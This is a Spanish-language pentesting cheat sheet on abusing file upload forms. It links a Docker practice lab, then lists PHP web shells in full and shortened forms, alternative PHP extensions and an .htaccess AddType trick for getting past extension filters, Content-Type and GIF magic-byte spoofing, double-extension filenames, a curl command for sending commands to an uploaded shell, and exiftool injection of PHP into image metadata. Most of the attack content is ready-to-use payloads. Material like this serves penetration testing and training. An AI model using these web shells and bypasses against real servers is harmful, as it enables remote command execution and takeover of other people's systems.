 _____________________________

El abuso de subidas de archivos es un tipo de ataque que se produce cuando un atacante aprovecha las vulnerabilidades en las aplicaciones web que permiten a los usuarios **cargar archivos** en el servidor. Este tipo de ataque se conoce comúnmente como un ataque de “**subida de archivos maliciosos**“.

En un ataque de subida de archivos maliciosos, un atacante carga un archivo malicioso en una aplicación web, que luego se almacena en el servidor. Si por ejemplo el atacante consigue subir un archivo PHP y el servidor web lo almacena, podría conseguir ejecución remota de comandos y tomar el control del servidor.

Los atacantes también pueden utilizar técnicas de “**falsificación de tipos de archivos**” para engañar a una aplicación web con el objetivo de que acepte un archivo malicioso como si fuera un archivo legítimo.

_________________________

Lab. de practica

[File Upload Laboratory](https://github.com/moeinfatehi/file_upload_vulnerability_scenarios)

```bash
git clone https://github.com/moeinfatehi/file_upload_vulnerability_scenarios
cd file_upload_vulnerability_scenarios
docker-compose up -d
```

_____________________________

**EXTENSION RESTRICTION**

archivo malicioso PHP 

```php
<?php
	system($_GET['cmd']);
?>
```

extensiones PHP alternativas para bypass

_.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, _.phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_

incluir una extensión nueva para que interprete **php** con **.htaccess**

archivo de texto con nombre .htaccess

```
AddType application/x-httpd-php <.extensión>
```

**.extensión** = extensión a crear

**Content-Type: text/plain**

_________________

**SIZE RESTRICTION**

probar acortar la cantidad de caracteres

```php
<?php system($_GET[0]);?>
```

```php
<?=`$_GET[0]`?>
```

____________________________

**FILE TYPE RESTRICTION**

verificar content type y cambiarlo al archivo correspondiente

**Content-Type: image/jpg**

cambiar los primeros bytes del archivo para hacer creer que es un archivo diferente 

```php
GIF8;
<?php system($_GET[0]);?>
```

____________________

**NAME CHANGE BYPASS**

Es posible que se modifique el nombre del archivo a algún tipo de hash

solo el nombre, nombre mas extensión, todo el contenido.

[Hash Examples](https://gist.github.com/dwallraff/6a50b5d2649afeb1803757560c176401)

_______________________

**NAME CONTAIN EXTENTION**

Es posible que al subir el archivo se valide que este contenga el nombre de la extensión se puede bypassear de la siguiente forma

```
nombrearchivo.<extensión necesaria>.<extensión maliciosa>
```

extensión necesaria = colocar extensión solicitada por la web

extensión maliciosa = colocar la extensión de nuestro script

__________________________

**CURL**

en caso que aplique una descarga automática al abrir ruta del archivo tramitar la data por **curl** de la siguiente manera

```bash
curl -s -X GET "<url>" -G --data-urlencode "<parametro>=<comando>"
```

______________________________

Inyectar metadatos a imágenes o archivos

```bash
exiftool -Comment='<?php system("id"); ?>' <nombre_imagen>
```


